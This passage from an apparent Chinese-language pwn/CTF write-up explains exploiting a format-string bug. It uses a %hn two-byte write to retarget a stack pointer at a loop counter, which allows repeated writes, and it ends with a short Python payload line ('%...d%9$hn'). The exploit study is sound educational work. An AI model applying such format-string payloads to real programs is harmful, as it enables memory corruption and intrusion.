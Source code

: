 由于当前栈帧中的变量存储了栈地址（没有存储.bss段地址的）的只有绿色框中的两个位置，因此只能构造MACRO_COUNT i地址，将其修改为负数，以增加循环次数，进而可进行多次格式化字符串漏洞利用【注意i变量只在进入循环体时初始化一次为0，由于main栈帧没有退出，故在执行过程中可以修改i变量】

![clip_image019](\img\trifles\clip_image019.png)

从上图可以看出0xffffd004地址处存储的是内存单元0xffffd0c4的地址，而0xffffd0c4存储的值是0xffffd294，也就是说栈上有一个存储了栈地址0xffffd294的变量（该变量的地址为0xffffd0c4）。

由于栈地址的高16位固定，随机化只在低16位发生，因此只需要将0xffffd294的低16位修改为MACRO_COUNT i的最高字节地址的低16位即可。也就是说，即利用%hn（双字节写入），将0xffffd294修改为0xffffd00f。

![clip_image021](\img\trifles\clip_image021.png)

对应的脚本实现如下：

```python
i_16 = (ebp + 0x17) & 0xffff
# %k$hn会对指定k偏移处下的地址写入已输出字节的数量
# "%" + str(i_16) + "d"会输出0xd00f宽度的字符串
# 也就是将0xffffd0c4地址下的内容的低16位修改为0xd00f
# 即变为0xffffd004 —▸ 0xffffd0c4 —▸ 0xffffd00f
payload1 = "%" + str(i_16) + "d" + "%9$hn" 
p.sendline(payload1)
```
